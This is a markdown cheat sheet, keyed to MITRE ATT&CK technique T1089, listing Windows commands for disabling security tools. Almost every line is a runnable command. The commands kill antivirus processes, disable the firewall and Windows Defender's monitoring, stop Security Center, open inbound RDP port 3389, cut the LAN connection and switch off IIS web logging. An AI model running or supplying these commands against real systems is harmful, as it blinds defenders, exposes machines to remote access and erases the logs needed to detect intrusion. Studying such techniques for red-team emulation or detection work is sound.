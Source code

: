 # Disabling Security Tools

MITRE ATT&CK Technique: [T1089](https://attack.mitre.org/wiki/Technique/T1089)

## Terminate Anti-Virus Processes
`Taskkill /F /IM avprocess.exe`

## Disable Firewall
`netsh firewall set opmode disable`

## Stop Windows Security Center
`net stop wscsvc`

## Add Local Firewall Rule Exceptions : Enable a Program
`netsh advfirewall firewall add rule name="My Application" dir=in action=allow program="C:\MyApp\MyApp.exe" enable=yes`

## Add Local Firewall Rule Exceptions : Enable a Port
`netsh advfirewall firewall add rule name="Open Remote Desktop" protocol=TCP dir=in localport=3389 action=allow`

## Disable The LAN Network Connection
`netsh interface set interface name="Local Area Connection" admin=disabled`

## Stop Windows Defender

### Windows 7/8
`net stop windefend`

### Windows 10
```
PS > Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
PS > Set-MpPreference -DisableIOAVProtection $true -Verbose
PS > Set-MpPreference -DisableBehaviorMonitoring $true -Verbose
PS > Set-MpPreference -DisableIntrusionPreventionSystem $true -Verbose
PS > Set-MpPreference -DisablePrivacyMode $true -Verbose
```

## Disable Default Web Site Logging IIS 7

### Disable Default Web Site Logging IIS 7
`%windir%\system32\inetsrv\appcmd.exe set config "Default Web Site" -section:system.webServer/httpLogging /dontLog:"True" /commit:apphost`

### Restart Default Web Site IIS 7
`%windir%\system32\inetsrv\appcmd.exe stop site /site.name:"Default Web Site" && %windir%\system32\inetsrv\appcmd.exe start site /site.name:"Default Web Site"`
